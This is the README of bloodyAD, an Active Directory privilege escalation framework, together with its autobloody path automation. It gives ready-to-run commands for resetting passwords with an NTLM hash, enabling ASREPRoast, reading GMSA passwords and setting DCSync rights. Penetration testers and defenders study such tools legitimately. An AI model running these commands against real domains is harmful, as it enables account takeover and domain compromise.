 # ![bloodyAD logo](https://repository-images.githubusercontent.com/415977068/9b2fed72-35fb-4faa-a8d3-b120cd3c396f) BloodyAD Framework
BloodyAD is an Active Directory Privilege Escalation Framework, it can be used manually using `bloodyAD.py` or automatically by combining `pathgen.py` and `autobloody.py`.

This framework supports NTLM (with password or NTLM hashes) and Kerberos authentication and binds to LDAP/LDAPS/SAMR services of a domain controller to obtain AD privesc.

It is designed to be used transparently with a SOCKS proxy.

## bloodyAD
### Description
This tool can perform specific LDAP/SAMR calls to a domain controller in order to perform AD privesc.

### Requirements
The following are required:
- Python 3
- DSinternals
- Impacket
- Ldap3

Use the requirements.txt for your virtual environment: `pip3 install -r requirements.txt`

### Usage
Simple usage:
```ps1
python bloodyAD.py --host 172.16.1.15 -d MYDOM -u myuser -p :70016778cb0524c799ac25b439bd6a31 changePassword mytarget 'Password123!'
```

**Note:** You can find more examples on https://cravaterouge.github.io/

List of all available functions:
```ps1
[bloodyAD]$ python .\bloodyAD.py -h
usage: bloodyAD.py [-h] [-d DOMAIN] [-u USERNAME] [-p PASSWORD] [-k] [-c CERTIFICATE] [-s] [--host HOST]
                   {getObjectAttributes,setAttribute,addUser,addComputer,delObject,changePassword,addObjectToGroup,addForeignObjectToGroup,delObjectFromGroup,getChildObjects,setShadowCredentials,setGenericAll,setOwner,setRbcd,setDCSync,setUserAccountControl}
                   ...

Active Directory Privilege Escalation Framework

Main options:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain used for NTLM authentication
  -u USERNAME, --username USERNAME
                        Username used for NTLM authentication
  -p PASSWORD, --password PASSWORD
                        Cleartext password or LMHASH:NTHASH for NTLM authentication
  -k, --kerberos
  -c CERTIFICATE, --certificate CERTIFICATE
                        Certificate authentication, e.g: "path/to/key:path/to/cert"
  -s, --secure          Try to use LDAP over TLS aka LDAPS (default is LDAP)
  --host HOST           Hostname or IP of the DC (ex: my.dc.local or 172.16.1.3)

Commands:
  {getObjectAttributes,setAttribute,addUser,addComputer,delObject,changePassword,addObjectToGroup,addForeignObjectToGroup,delObjectFromGroup,getChildObjects,setShadowCredentials,setGenericAll,setOwner,setRbcd,setDCSync,setUserAccountControl}
                        Function to call
```

Help text to use a specific function:
```ps1
[bloodyAD]$ python bloodyAD.py --host 172.16.1.15 -d MYDOM -u myuser -p :70016778cb0524c799ac25b439bd6a31 changePassword -h
usage: 
    Change the target password without knowing the old one using LDAPS or RPC
    Args:
        identity: sAMAccountName, DN, GUID or SID of the target (You must have write permission on it)
        new_pass: new password for the target
    
       [-h] [func_args ...]

positional arguments:
  func_args

optional arguments:
  -h, --help  show this help message and exit
  ```

### How it works
bloodyAD communicates with a DC using mainly the LDAP protocol in order to get information or add/modify/delete AD objects. A password cannot be updated with LDAP, it must be a secure connection that is LDAPS or SAMR. A DC doesn't have LDAPS activated by default because it must be configured (with a certificate) so SAMR is used in those cases.

### Useful commands
```ps1
# Get group members
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes Users member 

# Get minimum password length policy
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes 'DC=bloody,DC=local' minPwdLength

# Get AD functional level
python bloodyAD.py -u Administrator -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes 'DC=bloody,DC=local' msDS-Behavior-Version

# Get all users of the domain
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' user

# Get all computers of the domain
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' computer

# Get all containers of the domain
python bloodyAD.py -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' container

# Enable DONT_REQ_PREAUTH for ASREPRoast
python bloodyAD.py -u Administrator -d bloody -p Password512! --host 192.168.10.2 setUserAccountControl john.doe 0x400000

# Disable ACCOUNTDISABLE
python bloodyAD.py -u Administrator -d bloody -p Password512! --host 192.168.10.2 setUserAccountControl john.doe 0x0002 False

# Get UserAccountControl flags
python bloodyAD.py -u Administrator -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes john.doe userAccountControl

# Read GMSA account password
python bloodyAD.py -u john.doe -d bloody -p Password512 --host 192.168.10.2 -s ldaps getObjectAttributes gmsaAccount$ msDS-ManagedPassword
```
## autobloody
### Description
This tool automate the AD privesc between two AD objects, the source (the one we own) and the target (the one we want) if a privesc path exists.
The automation is split in two parts:
- `pathgen.py` to find the optimal path for privesc using bloodhound data and neo4j queries.
- `autobloody.py` to execute the path found with `pathgen.py`

### Requirements
The following are required:
- Python 3
- DSinternals
- Impacket
- Ldap3
- BloodHound
- Neo4j python driver
- Neo4j with the [GDS library](https://neo4j.com/docs/graph-data-science/current/installation/)

### How to use it
First data must be imported into BloodHound (e.g using SharpHound or BloodHound.py) and Neo4j must be running.

Simple usage:
```ps1
pathgen.py -dp neo4jPass -ds 'OWNED_USER@ATTACK.LOCAL' -dt 'TARGET_USER@ATTACK.LOCAL' && autobloody.py -d ATTACK -u 'owned_user' -p 'owned_user_pass' --host 172.16.1.15
```

Full help for `pathgen.py`:
```ps1
$ python pathgen.py -h
usage: pathgen.py [-h] [--dburi DBURI] [-du DBUSER] -dp DBPASSWORD -ds DBSOURCE -dt DBTARGET [-f FILEPATH]

Active Directory Privilege Escalation Framework

optional arguments:
  -h, --help            show this help message and exit
  --dburi DBURI         The host neo4j is running on. Default: localhost.
  -du DBUSER, --dbuser DBUSER
                        Neo4j username to use
  -dp DBPASSWORD, --dbpassword DBPASSWORD
                        Neo4j password to use
  -ds DBSOURCE, --dbsource DBSOURCE
                        Case sensitive label of the source node (name property in bloodhound)
  -dt DBTARGET, --dbtarget DBTARGET
                        Case sensitive label of the target node (name property in bloodhound)
  -f FILEPATH, --filepath FILEPATH
                        File path for the graph path file (default is path.json)
```

Full help for `autobloody.py`:
```ps1
$ python autobloody.py -h
usage: autobloody.py [-h] [-d DOMAIN] [-u USERNAME] [-p PASSWORD] [-k] [-s {ldap,ldaps,rpc}] --host HOST [--path PATH]

Active Directory Privilege Escalation Framework

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain used for NTLM authentication
  -u USERNAME, --username USERNAME
                        Username used for NTLM authentication
  -p PASSWORD, --password PASSWORD
                        Cleartext password or LMHASH:NTHASH for NTLM authentication
  -k, --kerberos
  -s , --secure         Try to use LDAP over TLS aka LDAPS (default is LDAP)
  --host HOST           Hostname or IP of the DC (ex: my.dc.local or 172.16.1.3)
  --path PATH           Path file (to generate with pathgen.py)

```

### How it works
First `pathgen.py` generates a privesc path using the Dijkstra's algorithm implemented into the Neo4j's GDS library.
The Dijkstra's algorithm allows to solve the shortest path problem on a weighted graph. By default the edges created by bloodhound don't have weight but a type (e.g MemberOf, WriteOwner). A weight is then added to each edge accordingly to the type of the edge and the type of the node reached (e.g user,group,domain).

Once a path is generated and stored as a json file, `autobloody.py` will connect to the DC and execute the path and clean what is reversible (everything except password change).
